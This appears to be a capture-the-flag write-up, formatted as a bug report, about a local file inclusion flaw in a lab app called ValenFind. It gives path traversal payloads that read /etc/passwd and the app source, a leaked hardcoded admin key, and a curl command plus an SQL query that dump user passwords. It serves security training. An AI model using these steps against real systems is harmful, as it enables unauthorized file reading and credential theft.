




# Local File Inclusion Leads to Source Code Disclosure and Database Exposure via Hardcoded Admin API Key

## Summary

A Local File Inclusion (LFI) vulnerability exists in the `/api/fetch_layout` endpoint of the ValenFind application. By manipulating the `layout` parameter, an attacker can read arbitrary local files from the server.

Exploiting this vulnerability allows an attacker to retrieve the application's source code, discover a hardcoded administrator API key, access a protected database export endpoint, and extract sensitive information from the database. This can lead to credential exposure and administrator account takeover.

---

## Description

The application uses the `layout` parameter in the `/api/fetch_layout` endpoint to load profile theme templates.

However, the application fails to properly validate user-controlled input before using it in file operations. This allows an attacker to perform Local File Inclusion (LFI) by providing arbitrary file paths.

An attacker can manipulate the `layout` parameter to access sensitive files outside the intended template directory, including system files and application source code.

Because the application allows unrestricted file access, an attacker can disclose internal information, retrieve hardcoded secrets, and access protected functionality.

---

## Steps to Reproduce

1. Register an account and log in to the ValenFind application.

2. Navigate to the profile customization feature and change the profile theme.

3. Intercept the request using Burp Suite:

```http
GET /api/fetch_layout?layout=theme_romance.html
````

4. Modify the `layout` parameter to access a local file:

```http
GET /api/fetch_layout?layout=../../../../etc/passwd
```

5. Send the modified request.

6. Observe that the server returns the contents of `/etc/passwd`, confirming the Local File Inclusion vulnerability.

7. Use the disclosed application path:

```text
/opt/Valenfind/templates/components/
```

to retrieve the application source code:

```http
GET /api/fetch_layout?layout=/opt/Valenfind/app.py
```

8. Review the leaked source code and discover the hardcoded administrator API key:

```python
ADMIN_API_KEY = "CUPID_MASTER_KEY_2024_XOXO"
```

9. The source code also reveals the protected database export endpoint:

```http
/api/admin/export_db
```

10. Send the API key through the required header:

```http
X-Valentine-Token: CUPID_MASTER_KEY_2024_XOXO
```

11. Download the database and extract user information, including administrator credentials.

---

## Proof of Concept (PoC)

1. Access the vulnerable endpoint with a path traversal payload:

```http
/api/fetch_layout?layout=../../../../etc/passwd
```

The server returns the contents of `/etc/passwd`, confirming LFI.



2. Retrieve the application source code:

```http
/api/fetch_layout?layout=/opt/Valenfind/app.py
```

The application source code is disclosed.



3. Extract the hardcoded administrator API key:

```python
ADMIN_API_KEY = "CUPID_MASTER_KEY_2024_XOXO"
```

4. Access the database export endpoint using the leaked API key and pen the SQLite database and retrieve user information:

```bash
curl -H "X-Valentine-Token: CUPID_MASTER_KEY_2024_XOXO" \
http://10.113.176.231:5000/api/admin/export_db \
-o valenfind_leak.db

```

The database can be downloaded successfully.

```bash
sqlite3 valenfind_leak.db
```

```sql
SELECT username, password FROM users;
```

The administrator credentials are exposed due to plaintext password storage.




5. Log in using the leaked administrator credentials and retrieve the flag.



## Impact

An attacker can:

* Read arbitrary files from the server.
* Access sensitive application source code.
* Extract hardcoded secrets and API keys.
* Access administrator-only functionality.
* Download the application's database.
* Expose sensitive user information.
* Take over administrator accounts due to leaked credentials.

---